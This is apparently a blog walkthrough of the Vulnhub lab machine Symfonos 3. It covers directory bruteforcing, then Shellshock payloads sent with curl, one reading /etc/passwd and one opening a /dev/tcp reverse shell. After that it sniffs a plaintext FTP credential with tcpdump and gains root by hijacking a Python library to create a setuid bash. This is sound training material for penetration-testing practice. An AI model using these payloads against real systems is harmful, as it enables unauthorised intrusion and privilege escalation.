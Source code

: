 +++
title = "Vulnhub: Symfonos 3"
date = "2021-02-11"
author = ""
authorTwitter = "" #do not include @
tags = ["Intermediate", "Vulnhub", "OSCP Prep", "ffuf", "Directory Bruteforce", "ShellShock", "Tcpdump"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/symfonos1/symfonos1.png"
+++



| Difficulty | Release Date | Author | 
| ---------- | ------------ | ------ | 
| Intermediate | 7 Apr 2020 | Zayotic | 

# Summary

In this box, we need to perform some directory bruteforce then use shellshock vulnerability to get our first shell.
We then sniff local traffic using tcpdump and get credentials for the next user who has permissions to write python2.7 lib 
directory. Using those write permissions we hijack a library that is imported in a script that is executed by root in a
cron job. We create a suid bash binary that we use to get a root shell.

# Reconnaissance

Nmap

```nmap
Nmap scan report for 192.168.191.130
Host is up (0.00025s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5b
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 cd:64:72:76:80:51:7b:a8:c7:fd:b2:66:fa:b6:98:0c (RSA)
|   256 74:e5:9a:5a:4c:16:90:ca:d8:f7:c7:78:e7:5a:86:81 (ECDSA)
|_  256 3c:e4:0b:b9:db:bf:01:8a:b7:9c:42:bc:cb:1e:41:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## HTTP (80)

Visiting the IP on the browser, all we get is a picture.

{{< image src="/img/symfonos3/symfonos3-11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Viewing the source doesn't reveal much.

{{< image src="/img/symfonos3/symfonos3-12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Performing a recursive directory bruteforce using ffuf with recursion enabled we get several directories.

```sh
ffuf -ic -c -u http://192.168.191.130/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -recursion | tee ffuf.out.recurse
```

{{< image src="/img/symfonos3/symfonos3-3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Going to the research endpoint, there's information about the Underworld and Greek mythology. 

{{< image src="/img/symfonos3/symfonos3-4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the words look similar to the directories we discovered, so let's create a wordlist which maybe helpful later.

```shell
cewl http://192.168.191.130/gate/cerberus/tartarus/research -w words.txt
```
The current directories we have discovered don't have much in them. At this point I was stuck a bit, after looking at
some writeups I realized that sometimes valid directories show when you have a trailing slash at the end. So I ran ffuf again
with a trailing slash.

```shell
ffuf -ic -c -u http://192.168.191.130/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt | tee ffuf.rootdir
```

{{< image src="/img/symfonos3/symfonos3-5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this idea, cgi-bin directory is discovered. This is a nice directory bruteforce tip I'll use going forward. The presence of
cgi-bin could potentially mean we can have a shellshock vulnerability.

Running another bruteforce using the wordlist I created earlier didn't work. I then thought to get a lowercase version of the 
words and try it.

```shell
cewl --lowercase http://192.168.191.130/gate/cerberus/tartarus/research -w words2.txt

ffuf -ic -c -u http://192.168.191.130/cgi-bin/FUZZ -w words2.txt
```
{{< image src="/img/symfonos3/symfonos3-13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With the lowercase wordlist, we get underworld.

To verify the shellshock vulnerability, we can send this request.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as cerberus

After verifying this vulnerability, we can get a reverse shell.

```shell
curl -A "() { :; }; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'" http://192.168.191.130/cgi-bin/underworld
```

{{< image src="/img/symfonos3/symfonos3-7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

On running id we notice that cerberus is part of pcap group. To figure out what is unique about this group I used the find
command.

```shell
find / -group pcap -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This reveals we can run tcpdump, therefore we can sniff network traffic. 

Before sniffing traffic, I used [pspy](https://github.com/DominicBreuker/pspy) to check for cron jobs and other commands being executed.

{{< image src="/img/symfonos3/symfonos3-9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

With this I was able to pick up a cronjob that runs as root. Since ftpclient.py is being executed, I'll sniff ftp 
traffic which isn't typically encrypted.

```shell
tcpdump port 21 -n -i lo -A
```

{{< image src="/img/symfonos3/symfonos3-10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From the tcpdump traffic we get new credentials, hades : PTpZTfU4vxgzvRBE.

# Privilege Escalation

Using the credentials we login to ssh as hades, running id reveals hades is in gods group.

{{< image src="/img/symfonos3/symfonos3-14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Running find again reveals we have write permissions to /usr/lib/python2.7 folder.

```shell
find / -group gods -ls 2>/dev/null
```

{{< image src="/img/symfonos3/symfonos3-15.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Based on the earlier output of pspy, we saw a cronjob that was running as root and python2.7 was being executed. Therefore we can hijack
any imports in that ftpclient.py script.

{{< image src="/img/symfonos3/symfonos3-16.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Since ftplib is imported, we'll replace ftplib.py with this script

```py
import os

os.system('cp /bin/bash /tmp/bash')
os.system('chmod +s /tmp/bash')
```

{{< image src="/img/symfonos3/symfonos3-17.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

This will create a setuid bash binary in /tmp. Which can use to gain root privileges.

{{< image src="/img/symfonos3/symfonos3-18.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

